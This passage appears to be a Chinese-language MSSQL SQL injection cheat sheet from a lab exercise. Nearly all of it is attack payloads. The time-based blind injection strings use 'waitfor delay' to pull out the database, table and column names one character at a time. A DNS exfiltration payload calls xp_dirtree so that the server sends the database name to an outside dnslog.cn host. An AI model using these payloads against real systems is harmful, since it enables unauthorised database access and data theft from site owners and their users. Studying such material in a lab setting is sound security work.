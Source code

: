 #### 获取数据库名

```sql
id=1'if(substring((select db_name),n,1))=m) waitfor delay '0:0::5' --+
```

#### 获取表名长度

```sql
id=1'if(len((select top 1 table_name from information_schema.tables))>10) waitfor delay '0:0:5' --+
```

#### 获取表名

```sql
id=1'if(substring((select top 1 table_name from information_schema.tables),n,1))=m waitfor delay '0:0:5' --+
```

#### 判断字段长度

```sql
id=1' if(len((select top 1 column_name from information_schema.columns))>10) waitfor delay '0:0:5' --+
```

#### 获取字段名

```sql
id=1' if(substring((select top 1 column_name from information_schema.columns),n,1))=m waitfor delay '0:0:5' --+
```



------

# 数据外带

### DNS数据外带

#### 获取数据库名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_dirtree "//'%2B@a%2B'.qu4mx7.dnslog.cn//a"') --+
```

![image-20240905203520207](./assets/image-20240905203520207.png)
